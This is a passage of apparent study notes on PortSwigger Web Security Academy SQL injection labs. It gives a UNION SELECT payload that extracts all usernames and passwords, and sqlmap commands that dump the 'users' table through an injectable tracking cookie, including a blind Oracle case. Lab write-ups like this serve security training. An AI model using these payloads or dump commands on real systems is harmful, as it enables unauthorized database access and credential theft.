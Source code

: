 ```ad-done
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
~~~
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
~~~
8. Find the password for the ``administrator`` user, and use it to log in.
```

## Blind SQL injection with conditional responses
Reference: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

```ad-hint
title: Quick Solution
This time the SQL Injections resides in the ``TrackingId`` cookie. For this reason a different ``sqlmap`` command must be used:

### Detect tables
~~~
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --tables
~~~
### Dump the content of 'users' table (set DBMS to speed up the execution)
~~~
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dbms=postgresql --dump
~~~
```

```ad-done
title: Solution
The solution is **extremely long** and it has not been copied, see the reference link.
```

## Blind SQL injection with conditional errors
Reference: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors

```ad-hint
title: Quick Solution
In this case the Database is Oracle. It is impossible to use either ``ALL_TABLES`` and ``ALL_TAB_COLUMNS`` to retrieve Database content. For this reason there are two alternative:
- Infer the existence of a ``users`` table
- Blindly detect all the table in the ``SYSTEM`` Database

Here is the code for both of them: 

### Blindly detect all the tables in the SYSTEM database
~~~
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --dump
~~~
### Dump the content of the users table
~~~
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dump
~~~
```
